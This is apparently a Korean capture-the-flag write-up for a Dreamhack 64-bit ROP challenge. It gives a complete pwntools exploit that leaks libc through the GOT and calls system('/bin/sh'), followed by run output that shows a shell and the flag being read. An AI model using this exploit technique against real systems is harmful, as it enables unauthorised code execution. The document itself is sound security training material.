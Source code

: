 ```python
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881

# read 함수의 got 주소에는 read함수의 라이브러리에서의 주소가 나와있으므로 이를 알기 위함임
payload=b'A'*0x40+b'B'*0x8 # buf(0x40) + SFP

# write(1,read_got,rdx)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15)+p64(read_got)+p64(0)
payload += p64(write_plt)
payload += p64(e.symbols['main'])

p.send(payload)
p.recvuntil(b'A'*0x40)

read_library = u64(p.recvn(6)+b'\x00'*2) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library-library.symbols['read']

bin_sh_offset= 0x18cd57 
bin_sh= library_base+bin_sh_offset
system_library = library_base + library.symbols['system']

payload2 = b'A'*0x40+b'B'*0x8 # buf(0x40) + SFP
payload2 += p64(pop_rdi) + p64(bin_sh)
payload2 += p64(system_library)

p.send(payload2)
p.interactive()
```

이 익스코드를 실행시키고나면 쉘을 얻을 수 있다.

```python
──(root💀kali)-[~/바탕화면/basic_rop_64]
└─# python3 ./answer.py
[+] Opening connection to host3.dreamhack.games on port 17771: Done
[*] '/root/바탕화면/basic_rop_64/basic_rop_x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/바탕화면/basic_rop_64/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x601030
[*] Switching to interactive mode
\x00@\xd7\x93\xa3\x7f\x00\xc0#\x17\xa3\x7f\x00p\xce▒\x93\xa3\x7f\x006\x06\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
basic_rop_x64
flag
$ cat flag
DH{357ad9f7c0c54cf85b49dd6b7765fe54}[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to host3.dreamhack.games port 17771
```

ls로 flag가 있음을 확인하고 cat을 통해 flag를 획득하였다.
